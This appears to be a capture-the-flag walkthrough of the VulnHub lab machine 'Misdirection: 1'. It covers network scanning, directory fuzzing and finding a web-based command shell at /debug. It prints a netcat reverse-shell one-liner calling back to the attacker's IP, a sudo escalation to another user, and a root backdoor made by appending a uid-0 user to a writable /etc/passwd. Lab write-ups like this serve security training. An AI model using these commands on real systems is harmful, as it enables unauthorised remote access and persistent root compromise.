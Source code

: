 # MISDIRECTION: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:b7:d5:da	VMware, Inc.
192.168.127.254	00:50:56:e7:2f:f3	VMware, Inc.
```

The IP address is `192.168.127.133`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,8080 -sV -sC -v -oN nmap.out 192.168.127.133

Nmap scan report for 192.168.127.133
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
|_  256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 00:0C:29:B7:D5:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i started checking port `80` and at this page there was nothing interesting, a login page and sign up whcih did not work for registring a user or

using SQLi :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f5fd7c46-edbf-40a6-a984-a401b26e8f7e)

i did fuzzing and found nothing good to work on.

then i turned my attention on port 8080 and started fuzzing it, i found `/wrodpress` on this port which was another misdirection and had nothing

no user, no vulnerable plugin or anything (just a rabbit hole)

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.133:8080/FUZZ

images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 6ms]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 9ms]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 2ms]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 3ms]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 2ms]
development             [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 5ms]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 2ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 3ms]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 7ms]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 4ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 4ms]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12, Duration: 2ms]
```

i checked all the directories found by fuzzing untill i reached `/debug` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/63020c17-85d5-4451-a790-1ed081891850)

this is a virtual shell on web, which we can insert any command on it, why not  a reverse shell ?


## 3.Gaining Shell


So just use this payload and start a listener on your machine :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.127.128 4444 >/tmp/f
```

```bash
root@kali: nc -nvlp 4444

nc -nvlp 5555 
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.133] 58766
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## 4.Privilege Escalation (brexit)

Check for sudo permissions :

```bash
$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

and yes we can now escalate to `brexit`:

```bash
$ sudo -u brexit /bin/bash
id
uid=1000(brexit) gid=1000(brexit) groups=1000(brexit),24(cdrom),30(dip),46(plugdev),108(lxd)
```

## 5.Privilege Escalation (root)

Now we search for filed writable for `brexit` group :

```bash
find / -writable -group brexit -type f 2>/dev/null
.
.
.
/home/brexit/.gnupg/trustdb.gpg
/home/brexit/.gnupg/pubring.kbx
/home/brexit/.cache/motd.legal-displayed
/home/brexit/.cache/pip/selfcheck.json
/home/brexit/.cache/pip/http/3/a/f/3/a/3af3addf06e983a6c02f46e7bea70c221d3ff95bf1418fa6da354e14
/home/brexit/.cache/pip/http/d/9/f/5/0/d9f5007c5cc7fe7a953d81df1938d0a96573b4be7f6b4aea55ab2559
/home/brexit/.cache/pip/http/d/6/3/b/3/d63b3263a620e99b23b4f69598defad34ecb501ae5ca54e4dac695dd
/home/brexit/.cache/pip/http/0/8/4/f/5/084f5a8368fb89a7efa9c04f435e93864cabf099a23e186572afd976
/home/brexit/.cache/pip/http/0/4/1/8/c/0418c83b80f7f7bfaec2738bfbbee53d2c1562196c0781702f6eddc8
/home/brexit/.cache/pip/http/0/c/3/c/2/0c3c2ab80ac45d92b76521577b3c4b537bd92ce9e61cf051701e1b5e
/home/brexit/.cache/pip/http/9/f/2/9/2/9f292e59213099651b5fcfd03d5cd2be236234e87bcc0df5dbd85d73
/home/brexit/.cache/pip/http/4/d/2/7/2/4d272e6453941ce8b0a37a02cdb1685fc612c33441fa74691fb40656
/home/brexit/.cache/pip/http/5/2/2/2/0/522208f7faac55ab0e11ff112febf93d0d03cfe79067a75199dfd54d
/home/brexit/.cache/pip/http/5/0/f/d/c/50fdc589a6c4862d95953d91e6727214af0438991e623198dd5f178c
/home/brexit/.cache/pip/http/7/1/8/d/c/718dc0b3a9262afd90c31576e94cc7660a7a2809c30afe2937429e35
/home/brexit/.cache/pip/http/a/1/9/5/3/a19537d3cf37c122db841d6fe4cd322bc10d1a558bb00d146b85cb9a
/home/brexit/.cache/pip/http/a/3/7/b/8/a37b86be8276b0c9eabc32797fb2b8516f6f704f46b0354b02b72053
/home/brexit/.cache/pip/http/a/6/9/b/d/a69bdb984343de3b3653d7a852dbd14dd4ccdd03ced4b06d1352ba0b
/home/brexit/.cache/pip/http/a/6/5/4/2/a6542724bf8d60e8f3764dc45cacba88484798f4b12a65f6b4aa7227
/etc/passwd
```

as you can see, we have write permission on `/etc/passwd`, so we can add a new user with root privileges:

use `openssl` to generate hash for password `123`:

```bash
root@kali: openssl passwd 123
$1$omSAxpxQ$d102EUA0tdSWmNydywbng.
```

then give that password for new user `user1`

```bash
echo 'user1:$1$omSAxpxQ$d102EUA0tdSWmNydywbng.:0:0:root:/root:/bin/bash' >> /etc/passwd
```








